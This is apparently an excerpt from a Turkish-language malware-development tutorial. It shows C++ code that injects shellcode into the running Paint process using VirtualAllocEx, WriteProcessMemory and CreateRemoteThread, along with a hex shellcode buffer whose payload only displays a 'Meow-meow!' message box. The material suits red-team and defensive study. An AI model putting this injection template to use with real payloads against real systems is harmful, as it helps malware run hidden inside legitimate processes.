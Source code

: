```cpp
  // find a window for mspaint.exe
  HWND hw = FindWindow(NULL, (LPCSTR) "Untitled - Paint");
  if (hw == NULL) {
    printf("failed to find window :(\n");
    return -2;
  }
  GetWindowThreadProcessId(hw, &pid);
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

  LPVOID rb = VirtualAllocEx(ph, NULL,
  sizeof(my_payload), 
  MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(ph, rb, my_payload, 
  sizeof(my_payload), NULL);

  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);

  return 0;
}
```

Her zamanki gibi, basitlik adına, payload olarak `meow-meow` mesaj kutusunu kullandım:     

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```
